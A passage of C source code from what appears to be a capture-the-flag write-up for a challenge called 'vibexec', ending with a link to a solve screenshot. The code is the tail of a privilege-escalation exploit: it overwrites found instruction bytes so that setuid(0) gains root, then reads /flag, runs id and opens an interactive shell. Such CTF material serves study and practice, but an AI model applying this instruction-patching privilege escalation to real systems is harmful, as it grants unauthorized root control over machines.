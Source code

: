 ```c

      log_succ("found target instructions!");
      addr[1] = 0xd2;
      // 0b11 010 010: register, low, dl
      // 0x84, 0xd2: test dl, dl

      goto found_setuid;
    }

    dest += 0x100000; // go to next address
  }

  DIE("bad luck 2");

found_setuid:

  setuid(0);
  if (getuid() == 0) {
    log_succ("you got real world");
    log_succ("have fun~");

    system("cat /flag");
    system("id");

    win();
  } else {
    log_erro("something is wrong...");
  }
  interactive();
}
```

![vibexec_solve](https://raw.githubusercontent.com/Iwancof/about-me/main/writeups/vibexec/vibexec_solve.png)

